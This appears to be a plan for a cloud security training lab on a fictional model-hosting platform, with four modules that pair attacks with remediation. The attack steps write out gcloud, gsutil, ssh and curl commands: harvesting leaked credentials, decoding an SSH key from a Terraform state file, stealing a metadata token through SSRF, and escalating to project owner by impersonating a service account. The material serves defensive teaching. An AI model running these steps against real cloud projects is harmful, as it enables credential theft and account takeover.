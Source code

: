 # AI Security Bootcamp Implementation Plan

Context: "CloudAI Labs" - A model hosting platform (like Hugging Face) with security flaws

## Implementation Details

### Code Structure
- Use terraform files for deployment
- Add simple Flask ML API

### Student Experience
- ~30 minutes per module
- Story → Attack → Fix
- Visual diagrams provided

### Simplifications
- Pre-configured gcloud
- Focus: Storage, Functions, IAM

# Modules

## Module 1: Enumeration and Discovery
**Attack**:
- Predictable bucket names: modeldata-{dev,prod}
  - Student given 'modeldata-dev' bucket to start
- Dev bucket has a 'bucket-service-account'.json
- The 'bucket-service-account' has access to 'modeldata-prod' bucket
- Hints:
  - Hint1: "what's in the bucket? any creds?"
  - Hint2: "what can those creds access? (insert use-creds-command here)
  - Hint3: "what if there was another bucket for prod?"

**Remediation**:
- Go to Cloud Storage → Select "cloudai-dev" bucket
  - Delete the service account json from the bucket
- Go to IAM, Create new Service Account 'dev-bucket-sa'
  - Student selects tf-preconfigured 'Dev Bucket Access' role

**Engagement**: "CloudAI's 'secret' GPT-5 benchmarks leaked. No insider needed - how?"


## Module 2: Environment Secrets & State Exposure
**Attack** (Adapt Module 2):
- `gsutil ls` newly discovered 'modeldata-prod' bucket
  - Discover + download Terraform Statefile
- Examine file, notice 'alice' user, and 'nat' IP
  - Also notice "SSH key" secret visible in encoded form
- Decode SSH Key, dump to local file
  - Use it to `ssh alice@nat-ip` to access deployed VM

**Remediation**:
Prevent decodable SSH Key
- Open GCP Console → Security → Secret Manager
- Click "Create Secret", name: "ssh-key"
- Paste the exposed SSH key, click "Create"

**Engagement**: "Your startup's LLM architecture leaked. Trace the breach through exposed deployment files."

## Module 3: Instance Metadata Service Exploitation  
**Attack** (Use Challenge 4):
- SSH into VM from Module 2: `ssh -i ~/.ssh/alice-key alice@<NAT-IP>`
- Check current service account: `gcloud auth list`
  - Notice default compute service account with full project access
- Discover cloud function bucket: `gsutil ls`
  - Find 'cloud-function-bucket-challenge4' in output
- Read function source: `gsutil cat gs://cloud-function-bucket-challenge4/main.py`
  - Notice SSRF vulnerability in monitoring endpoint
- Run pre-installed script: `./invoke_monitoring_function.sh`
  - Script shows function URL format
- Extract service account token via SSRF:
  ```
  curl -X POST https://$LOCATION-$PROJECT_ID.cloudfunctions.net/monitoring-function \
    -H "Authorization: bearer $(gcloud auth print-identity-token)" \
    -H "Content-Type: application/json" \
    -d '{"metadata": "token"}'
  ```
- Hints:
  - Hint1: "Check what service account the VM is using"
  - Hint2: "Look for cloud functions in storage buckets"
  - Hint3: "The monitoring function fetches URLs - what about metadata.google.internal?"

**Remediation**:
- Go to IAM & Admin → Service Accounts → Create
- Name: "model-api-vm", description: "Minimal VM account"
- Skip permissions for now → Create
- Compute Engine → VM instances → Click instance
- Edit → Service account → Select "model-api-vm"
- Save → Test: SSRF gets limited token

**Engagement**: "Inference costs exploded overnight. The model API is accessing internal resources."

## Module 4: Service Account Misconfigurations [Extension]
**Attack** (Use Challenge 5):
- Use token from Module 3: `export CLOUDSDK_AUTH_ACCESS_TOKEN=<function-token>`
- Check project permissions: `gcloud projects get-iam-policy $PROJECT_ID`
  - Notice monitoring-function@ has custom role
- List all service accounts: `gcloud iam service-accounts list`
  - Find terraform-pipeline@ with admin privileges
- Examine custom role: `gcloud iam roles describe TerraformPipelineProjectAdmin --project $PROJECT_ID`
  - Has owner-like permissions including setIamPolicy
- Check terraform SA bindings: `gcloud iam service-accounts get-iam-policy terraform-pipeline@$PROJECT_ID.iam.gserviceaccount.com`
  - monitoring-function@ has Token Creator role!
- Impersonate to escalate privileges:
  ```
  gcloud projects add-iam-policy-binding $PROJECT_ID \
    --member=user:<your-email> --role=roles/owner \
    --impersonate-service-account terraform-pipeline@$PROJECT_ID.iam.gserviceaccount.com
  ```
- Verify escalation: `gcloud projects get-iam-policy $PROJECT_ID | grep -A2 <your-email>`
- Hints:
  - Hint1: "What other service accounts exist in the project?"
  - Hint2: "Check IAM bindings on the terraform service account"
  - Hint3: "Service Account Token Creator allows impersonation"

**Remediation**:
- Navigate to IAM & Admin → Service Accounts
- Find "monitoring-function@" account → Click name
- Go to "Permissions" tab → View all permissions
- Find "terraform-pipeline@" in the list
- Click pencil icon next to "Service Account Token Creator"
- Select "Remove" → Confirm removal
- Test: `gcloud iam service-accounts get-iam-policy terraform-pipeline@...`
  - Verify monitoring-function@ no longer listed

**Engagement**: "Ex-employee claims they deleted all models using just an API token. Investigate."

